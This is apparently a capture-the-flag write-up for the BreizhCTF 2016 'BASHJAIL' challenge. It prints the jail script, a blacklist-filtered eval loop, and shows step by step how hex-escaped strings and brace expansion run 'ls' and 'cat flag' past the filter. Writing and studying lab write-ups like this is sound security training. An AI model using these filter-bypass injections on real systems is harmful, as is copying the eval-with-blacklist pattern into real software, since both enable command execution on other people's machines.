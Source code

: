 #BREIZHCTF 2016 : BASHJAIL

**Category:** JAIL |
**Points:** 300 |
**Solves:** 7% |
**Description:** 

> BASHJAIL

---

##Code and Write-up

Here is the code :

```bash
#!/bin/bash
. /home/game/.omg

_start(){
    echo "Hi. U got $TIME second(s) to do this. Don't fap"
    sleep "$TIME"
    _quit
}

_quit(){
    echo -e '\n\033[0;31mA breton is faster than u. Bye\033[0m'
    kill -9 "$PID" &>/dev/null
    exit
}

_trapped(){
    kill "$sPID"
    local TIME="$((RANDOM%1337))"
    echo -e "Poor guyz. U wanna leave this GAME ?\nStay with me for "$TIME"s <3.\nTake a drink? For milk, ask @saxx. For beer, ask @kaluche"
    sleep "$TIME"
}


_is_hacker_or_breton(){
        [[ $1 == *[02abcdefghijklmnopqrstuvwyzABDEFGHIJKLMNOPQRSTUVWXYZ';''&'' ''"''*''`''?''.''<''>']* ]] && return 0
        return 1
}

PID="$$"
echo "PIIIID : $PID"
trap _trapped SIGINT SIGTERM
TIME=5 ; _start & sPID="$!" ; sleep 0.01

while true; do
    echo -ne "\033[32mEnter a cmd > \033[0m"
    read cmd
    _is_hacker_or_breton "$cmd" && {
            echo -e '\033[0;31mDont hack me !\033[0m'
            exit 1
        } || {
            out="echo Your command is: $cmd"
            eval "$out"
    }
done
```

Here, the .omg file : [.omg](https://github.com/notfound-404/BREIZHCTF2K16/blob/master/BASHJAIL/omg)

The first thing to do, was to ^c to kill the timeout, and to get a small sleep.
You can see it's RANDOM.

```
Poor guyz. U wanna leave this GAME ?
Stay with me for 1182s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 881s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 906s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 600s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 8s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
```

Well, 8s is quiet small.
Now, you can easily find unfiltered chars, by testing them manually.
The following wasn't filtered :

```
Enter a cmd > $'x13456789{}()\\
Enter a cmd >
```

Knowing that, and knowing a little bash, you can try a `ls` :

```
Enter a cmd > $'\\x6C\\x73'
Your command is: ls
```

Ok, the command is not filtered but not executed ...
Well, try to executed is using `$(cmd)`

```
Enter a cmd > $($'\\x6C\\x73')
Your command is: flag jail.sh
```

Good, the command was executed.
You can see 2 files, `flag` and `jail.sh`

Let's try to `cat flag` :
```
Enter a cmd > $($'\\x63\\x61\\x74\\x20\\x66\\x6C\\x61\\x67')
Dont hack me !
```

Oh, right. `\\x20` contains filtered chars.<br>
If you were stuck here, you just had to Google : `bash commands without spaces`<br>
(https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

An example :

```bash
jonojono@apollo ~ $ {echo,hello,world}
hello world
```

We know that `{}` are not filtered, let's try this :
```
Enter a cmd > $({$'\\x63\\x61\\x74',$'\\x66\\x6C\\x61\\x67'})
Your command is: BRZHCTF{...}
```


<br>
Pwned.<br>
__Flag__ : BRZHCTF{Yes_I_allow_u_to_hate_me...I_am_Notfound_and_I_love_b4sh.I_also_love_long_flag,saxxounette_and_kalouchi_and_the_others_trollz}

Small asciicast : <br>
[![Alt text for your video](http://pix.toile-libre.org/upload/original/1462182542.png)](https://asciinema.org/a/enbpmktycn237ecslojre4f4q#)

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)

